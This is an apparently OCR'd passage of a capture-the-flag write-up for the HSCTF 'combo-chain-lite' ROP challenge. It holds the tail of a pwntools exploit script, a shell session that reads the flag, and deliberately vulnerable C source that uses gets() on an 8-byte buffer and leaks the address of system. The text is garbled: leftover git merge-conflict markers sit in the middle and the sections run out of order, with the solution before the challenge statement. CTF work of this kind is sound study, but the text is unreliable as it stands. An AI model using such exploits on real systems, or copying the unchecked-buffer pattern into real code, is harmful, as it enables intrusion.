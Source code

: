 ```python
 20 sh.recvuntil(": ")
 21 sh.sendline(payload)
 22 sh.interactive()
 23 
 24 sh.close()
```

We get a shell.
```shell
» python exploit.py
$ ls
combo-chain-lite  combo-chain-lite.c  exploit.py  flag
$ cat flag
hsctf{wheeeeeee_that_was_fun}
$  
```

Flag: `hsctf{wheeeeeee_that_was_fun}`
=======
>>>>>>> master

>Written by: Ptomerty
>
>Training wheels!
>
>Hint: What's a ROP?
>
>`nc pwn.hsctf.com 3131`

The challenge archive contains the following files.
```
combo-chain-lite
combo-chain-lite.c
```

### Solution

We are given the combo-chain-lite.c source file.
```c
  1 #include <stdlib.h>
  2 #include <string.h>
  3 #include <stdio.h>
  4 
  5 void vuln() {
  6     char dest[8];
  7     printf("Here's your free computer: %p\n", system);
  8     printf("Dude you hear about that new game called /bin/sh");
  9     printf("? Enter the right combo for some COMBO CARNAGE!: ");
 10     gets(dest);
 11 }
 12 
 13 int main() {
 14     setbuf(stdout, NULL);
 15     gid_t gid = getegid();
 16     setresgid(gid,gid,gid);
 17     vuln();
 18     return 0;
 19 }
```
